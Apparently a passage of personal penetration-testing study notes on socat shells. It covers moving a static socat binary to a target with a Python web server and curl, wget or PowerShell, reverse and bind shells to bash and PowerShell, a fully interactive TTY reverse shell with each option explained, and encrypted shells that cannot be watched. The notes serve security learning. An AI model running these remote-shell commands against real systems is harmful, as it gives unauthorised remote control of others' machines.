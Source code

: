 				- Which are bloody hard to stabilise
			- Same with the previous Python technique:
				- CTRL+Z; then
				- stty raw -echo; fg
		- Socat
			- using a Netcat shell as a stepping-stone into a more featured socat shell
			- Limited to LINUX Focused-Machines
				- Socat Shells on a Win Machine will be no more stable than a normal Netcat Shell
			- First, transfer a Socat Static Compiled Binary (https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (the program compiled to have no dependencies) 
				- Run an adhoc Webserver
					- PYTHON!
					- sudo python3 -m http.server 80
					  (note that this would need to be run from where the socat compiled binary is held)
					- On the Focused-Machine end
						- Linux
							- curl / wget " who's Ip? " / socat -o /tmp/socat
						- Windows PowerShell (note that the file will need to have the .exe file extension)
							- Invoke-WebRequest -uri " who's ip? " / socat.exe -outfile C: slash slash Windows slash temp slash socat.exe
			- Listener:
				- socat TCP-L:"port" -
					- equivalent to nc -lvnp 
					- Unstable, but will support Windows as well
					- Windows to connect back:
						- socat TCP:"localIP":"localPort" EXEC:powershell.exe,pipes
							- the pipes option sis used to force PowerShell to use Unix style standard input and output
					- Linux to connect back:
						- socat TCP:"localIP":"localPort" EXEC:"bash -li"
			- For Bind:
				- Linux:
					- socat TCP-L:"Port" EXEC:"bash -li"
				- Windows:
					- socat TCP-L:"Port" EXEC:powershell.exe,pipes
				- Pipes being used between Unix and Windows to handle input and output in a CLI env
				- On localhost:
					- socat TCP:"FocusedMachIP":"FocusedMachPort" -
			- New listener syntax (for both ends Linux) - special:
				- socat TCP-L:"localPort" FILE:'tty',raw,echo=0
					- Two parts as always
						- a listening Port
						- and a File
					- the echo=0 is foregrounding the command (stty raw -echo; fg)
				- This Listerner needs to be activated with a specific command
					- socat TCP:"localIP":"localPort" EXEC:"bash -li",pty,stderr,sigint,setsid,sane
						- first part we're linking with the localhost and port
						- The EXEC:"bash -li"
							- Creates an interactive bash session
							- pty
								- allocates a pseudoterminal on the FocusedMachine (part of stabilising)
							- stderr
								- any errors are thrown in the shell (an issue with non-interactive shells)
							- sigint
								- passes any CTRL+C entries through the sub-process, allowing us to kill commands inside the shell!
							- setsid
								- creates the process in a new session, woo
							- sane
								- stabilies the terminal, attempting to "norm" it
				- -d -d 
					- increases verbosity 
		- Encrypted Shells
			- Socat can create encrypted Shells - both Reverse and Bind
			- Can't be spied on
				- Unless you have the decryption key
